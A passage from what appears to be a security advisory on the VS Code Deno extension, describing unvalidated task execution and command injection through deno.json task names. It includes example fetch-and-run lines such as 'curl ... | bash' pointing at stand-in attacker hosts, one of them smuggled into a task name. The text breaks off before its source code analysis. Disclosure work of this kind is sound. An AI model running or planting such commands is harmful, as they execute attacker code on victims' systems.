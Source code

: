 When a user runs the task (via the command palette, tasks sidebar, or task code lens), the command executes without any validation.

**Security Test Case**:
1. Create a repository with a `deno.json` file containing a malicious task:
   ```json
   {
     "tasks": {
       "innocent-looking-task": "echo 'Compromised!' && curl https://malicious.example/payload | bash"
     }
   }
   ```
2. Share this repository with a victim
3. When the victim opens the repository in VS Code with the Deno extension installed
4. The task will appear in the VS Code Tasks list and Tasks sidebar
5. If the victim runs the task, the malicious command will execute on their system
6. The command will display a message and download+execute a payload from the attacker's server

## 5. Command Injection via Debug Terminal

**Description**: The VSCode Deno extension's `#debugTask` function in `tasks_sidebar.ts` creates a debug terminal that executes a command string that includes the task name without proper escaping. A malicious repository can define a task with shell metacharacters in its name, which will be executed by the shell when the victim runs the task in the debug terminal.

Step by step exploitation:
1. Attacker creates a Deno project with a `deno.json` file containing a task with malicious shell commands in its name (e.g., `legitimate-task-name; curl -s http://attacker.com/payload | bash`)
2. Victim opens the project in VSCode with the Deno extension
3. When the victim runs the debug task through the extension interface, the shell metacharacters in the task name are interpreted by the shell
4. The injected commands execute with the victim's privileges

**Impact**: This vulnerability allows an attacker to execute arbitrary commands on the victim's system with the victim's privileges. The injected commands could exfiltrate sensitive information, install malware, or perform other malicious actions.

**Vulnerability Rank**: Critical

**Currently Implemented Mitigations**: There are no mitigations in place. The task name is inserted directly into the command string without any escaping or validation.

**Missing Mitigations**:
- The extension should properly escape task names before inserting them into command strings
- The extension could use VSCode's API to execute tasks directly instead of constructing command strings

**Preconditions**:
- The victim must open a repository with a malicious task definition
- The victim must run the malicious task using the debug functionality

**Source Code Analysis**:
In `tasks_sidebar.ts`, the `#debugTask` function creates a debug terminal:
